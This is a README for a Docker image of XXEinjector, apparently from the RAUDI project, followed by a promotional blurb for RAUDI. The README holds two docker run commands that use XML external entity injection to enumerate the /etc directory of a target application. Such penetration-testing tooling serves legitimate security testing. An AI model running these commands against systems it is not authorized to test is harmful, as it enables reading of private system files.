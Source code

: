 # XXEInjector

## Official Documentation
Reference: https://github.com/enjoiz/XXEinjector

## Description
XXEinjector automates retrieving files using direct and out of band methods. Directory listing only works in Java applications. Bruteforcing method needs to be used for other applications.

## Usage
Enumerating /etc directory in HTTPS application:
```
docker run -ti --rm -v ~/xxeinjector:/xxeinjector secsi/xxeinjector --host=192.168.0.2 --path=/etc --file=/xxeinjector/req.txt --ssl
```
Enumerating using direct exploitation:
```
docker run -ti --rm -v ~/xxeinjector:/xxeinjector secsi/xxeinjector  --file=/xxeinjector/req.txt --path=/etc --direct=UNIQUEMARKSTART,UNIQUEMARKEND
```

## 🐳 RAUDI: Regularly and Automatically Updated Docker Images

Hello, friend. This Docker Image has been created by RAUDI. What is RAUDI?

**RAUDI** (Regularly and Automatically Updated Docker Images) automatically generates and keep updated a series of *Docker Images* through *GitHub Actions* for tools that are not provided by the developers.

**RAUDI** is what will save you from creating and managing a lot of Docker Images manually. Every time a software is updated you need to update the Docker Image if you want to use the latest features, the dependencies are not working anymore. 

This is messy and time-consuming. 

Don't worry anymore, we got you covered.

If you want to contribute, give us a star or take a quick look at the source code of **RAUDI** click [here](https://github.com/cybersecsi/RAUDI).